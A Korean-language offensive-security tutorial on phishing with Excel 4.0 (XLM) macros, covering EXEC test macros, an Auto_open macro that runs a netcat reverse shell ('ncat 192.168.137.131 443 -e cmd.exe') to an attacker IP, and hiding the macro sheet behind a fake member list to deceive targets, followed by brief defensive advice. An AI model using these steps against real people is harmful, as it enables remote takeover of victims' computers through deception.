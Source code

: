 # XLM Excel 4.0 매크로

XLM (Excel 4.0) 매크로를 사용한 피싱 탬플랫 기법은 매우 전통적이고 유례가 깊은(?) 피싱 방식이다. 이 기법을 사용한 공격은 주로 악성코드를 포함한 문서 파일을 이메일 첨부파일이나 링크를 통해 유포하는 사이버 범죄자나 해커들이 초기 침투 방식으로 사용하는 탬플릿 중 하나이다. 

다행스럽게도, 최근 버전의 Microsoft Office에서는 VBA 매크로 실행을 디폴트로 비활성화하게 되어있기 때문에, XLM (Excel 4.0) 매크로를 사용한 공격 기법은 1990년대에 개발된 굉장히 오래된 기술이며 최근에는 보안 기술의 발전으로 인해 많이 찾지 않는 공격 기법이다.  따라서, 최근에는 XLM 매크로를 사용하는 공격이 VBA 매크로를 사용하는 공격보다는 정식 파일에 chm,lnk,hta등을 심어 사용하는 기법이 주로 쓰인다.

하지만 혹시라도 매크로 공격에 취약한 Excel 4.0과 5.0버전을 아직까지도 쓴다거나 블랙 해커가가 엄청난 말빨과 소셜 엔지니어링을 통해 타겟 유저가 스스로 매크로 활성을 하게 유도한다면 매크로 공격은 쉽고도 정확한 공격 기법이 될수 있다.

## 실습
실습을 위해 File -> Info -> Macro Settings -> Enable VBA Macros...를 선택해 매크로를 활성화해준다.

![](../../obsidian_resources/Pasted%20image%2020230502195135.png)

아래 시트에서 우클릭 -> Insert (추가) -> MS Excel 4.0 Macro -> OK를 해준다.
![](../../obsidian_resources/Pasted%20image%2020230502193306.png)

간단한 테스트를 위해 아래 같이 각 열에 입력하여 계산기 (calc.exe)와 함께 "HELLO WORLD" 구문이 열리는지 확인해본다.

```
=EXEC("calc.exe")
=ALERT("HELLO WORLD!")
=HALT()
```

성공했다! 이제 우리는 EXCEL의 매크로를 통해 커맨드 EXEC 로 앱 실행이 가능하다는 것을 알았다!
![](../../obsidian_resources/Pasted%20image%2020230502193523.png)


### 실전 예제

실전 예제를 들어보자. 

이제 공격자는 타겟이 사용하는 EXCEL 매크로 기능을 통해 로컬 바이너리를 실행할 수 있다라는 사실을 알았다.

그렇다면 공격자는 간단한 netcat 리버스 쉘을 실행하는 백도어를 매크로에 심어 타겟이 공격자에 연결되게끔 할수도 있다는 말이다!

shell.cmd 에 `ncat 192.168.137.131 443 -e cmd.exe 
를 저장한다. 192.168.137.131은 공격자의 아이피이며 말그대로 공격자에 포트 443로 연결을 시도한다라는 뜻이다.

아래와 같이 shell.cmd를  실행하는 매크로를 생성하고  A1을 Auto_open으로 바꿔주어 파일이 열림과 동시에 매크로가 자동으로 실행될게 해줄수 있다.
```
=EXEC("C:\Temp\shell.cmd")
=ALERT("GROOT!")
=HALT()
```

![](../../obsidian_resources/Pasted%20image%2020230502195827.png)

일단 매크로 구문이 들어있는 EXCEL 파일은 누가봐도 수상하기 때문에 Hide (숨기기)를 해주고 정상 파일로 보이게 "회원 명단"과 같은 내용을 넣어준다.
![](../../obsidian_resources/Pasted%20image%2020230502195849.png)

타겟 유저가 보는 EXCEL 파일에는 매크로 탭은 보이지 않고 회원 명단만 보이게 되어 의심을 하지 않게 한다.
![](../../obsidian_resources/Pasted%20image%2020230504185904.png)

이제 타겟이 이 EXCEL 파일을 여는 순간 아래와 같이 공격자의 포트 443으로 리버스 쉘이 연결된 것을 알수있다!
![](../../obsidian_resources/화면%20캡처%202023-05-02%20200259.png)



## 대응방안
XLM (Excel 4.0) 매크로를 사용한 공격 기법에 대응하기 위한 방안은 매크로 공격에 취약한 Excel을 최신 버전으로 패치하는거다. 또한 대부분의 안티바이러스 및 방화벽과 같은 보안 솔루션을 XLM 매크로 실행을 탐지하고 차단할 수 있으니 너무 걱정은 하지 않다도 되지만 그래도 

마지막으로, 너무나도 당연하지만 수상한 이메일 첨부 파일이나 다운로드 링크를 클릭하지 않아야 한다. 만약에 매크로를 활성화해야 한다는 IT부서의 권고 이메일을 받게 되면 진짜 IT부서가 맞는지 의심하고 또 의심하길 바란다.

## 레퍼런스
https://en.wikipedia.org/wiki/Microsoft_Excel
https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-xlm-macro-4.0
https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/
https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf

